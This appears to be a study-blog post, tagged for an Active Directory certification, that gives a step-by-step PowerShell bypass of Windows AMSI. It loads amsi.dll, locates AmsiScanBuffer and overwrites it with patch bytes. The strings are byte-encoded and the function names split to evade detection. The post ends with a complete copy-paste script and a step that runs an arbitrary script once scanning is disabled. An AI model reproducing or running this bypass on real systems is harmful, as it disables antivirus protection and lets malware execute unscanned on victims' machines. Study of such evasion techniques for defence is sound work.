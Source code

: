 ```yaml
---
title: Bypass AMSI Like a King
date: 2024-06-18 05:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell.
---
```


## Summary

This document describes how to bypass the Anti-Malware Scan Interface (AMSI) using PowerShell. It involves loading the `amsi.dll` into memory, finding the memory address of the `AmsiScanBuffer` function, and changing the memory protection to allow writing and executing code. Shellcode is then injected, and a PowerShell script is run. This method is mainly used for cybersecurity research and testing purposes and should be used responsibly.

## 1. Defining a C# Class with PInvoke Methods

```jsx
$Win32 = @"
using System.Runtime.InteropServices;
using System;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
```

In PowerShell, you can't directly call functions from Windows DLLs like `kernel32.dll` or `user32.dll`. These DLLs contain functions written in languages like C or C++. However, you can use a feature called PInvoke (Platform Invocation Services) to call these functions from PowerShell. PInvoke allows managed code (like C#) to call unmanaged functions.

**Explanation:**

- This part of the code defines a C# class `Win32` using a here-string (`@" ... "@`) in PowerShell.
- This class contains three methods: `GetProcAddress`, `LoadLibrary`, and `VirtualProtect`.
- These methods use the `[DllImport]` attribute, which tells the .NET runtime to look for these functions in the specified DLLs (`kernel32.dll` in this case).
- `GetProcAddress` retrieves the address of an exported function from a DLL.
- `LoadLibrary` loads a DLL into the process's address space.
- `VirtualProtect` changes the protection on a region of memory.

---

## 2. Loading `amsi.dll`

```jsx
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))

```

The script aims to interact with functions from `amsi.dll`, which is a Windows DLL containing functions related to the Anti-Malware Scan Interface (AMSI). Before you can use functions from a DLL, you need to load the DLL into memory. The `LoadLibrary` function from `kernel32.dll` is used for this purpose.

**Explanation:**

- This part initializes a byte array `$nowhere` representing the ASCII characters of the string "amsi.dll".
- It then calls the `LoadLibrary` method from the `Win32` class to load `amsi.dll` into memory.
- The result, which is a handle to the loaded DLL, is stored in the variable `$LoadLibrary`.

---

## 3. Getting the Address of `AmsiScanBuffer`

```jsx
$somewhere = [Byte[]](0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
```

The script needs to find the memory address of the `AmsiScanBuffer` function inside `amsi.dll`. This is necessary to modify or intercept the behavior of the `AmsiScanBuffer` function later in the script. The `GetProcAddress` function from `kernel32.dll` is used to retrieve the address of a function within a loaded DLL.

**Explanation:**

- This part initializes a byte array `$somewhere` representing the ASCII characters of the string "AmsiScanBuffer".
- It calls the `GetProcAddress` method from the `Win32` class to retrieve the address of the `AmsiScanBuffer` function within `amsi.dll`.
- The resulting memory address is stored in the variable `$notaddress`.

---

## 4. Changing Memory Protection

```
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
```

**Explanation:**

- This part sets up a variable `$notp` to hold the old protection value.
- It constructs the name of the `VirtualProtect` method dynamically using the variable `$replace`.
- Then, it calls the dynamically constructed method to change the memory protection of the `AmsiScanBuffer` function to allow writing and executing code.

---

## 5. Injecting Shellcode

```
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

---

## 6. Executing Your PowerShell Script

```
Unblock-File -Path .\malas.ps1
. .\malas.ps1
```

**Explanation:**

- This part of the code unblocks the script file `malas.ps1`, if it was blocked for security reasons.
- Then, it executes the `malas.ps1` script by dot-sourcing it (`.` operator followed by the script name). This runs the script in the current PowerShell session.

---

## 7. Final Code

```jsx
$c = 't'
$Win32 = @"
using System.Runtime.InteropServices;
using System;
public class Win32 {[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = 'VirtualProtec'
[Win32]::('{0}{1}' -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)
```

## 8. Run you powershell script
Run your powershell here
Unblock-File -Path .\malas.ps1
. .\malas.ps1
